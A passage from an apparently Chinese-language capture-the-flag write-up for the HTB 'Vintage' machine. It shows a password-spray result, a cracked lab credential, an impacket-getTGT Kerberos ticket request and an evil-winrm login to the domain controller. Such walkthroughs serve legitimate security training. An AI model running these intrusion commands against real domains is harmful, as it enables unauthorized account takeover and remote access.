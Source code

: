 ```
2024/12/04 09:36:17 >  Done! Tested 17 logins (1 successes) in 0.481 seconds
                                                                               
```

账户 `C.Neri@vintage.htb` 使用密码 `Zer0the0ne` 成功登录

![](./images/image-36.png)

获取这个账户的凭证

```
└─# impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.neri.ccache

└─# export KRB5CCNAME=c.neri.ccache
```

然后用5985端口远程登录

```
└─# evil-winrm -i dc01.vintage.htb -r vintage.htb
```

获取到User.txt

![](./images/image-35.png)
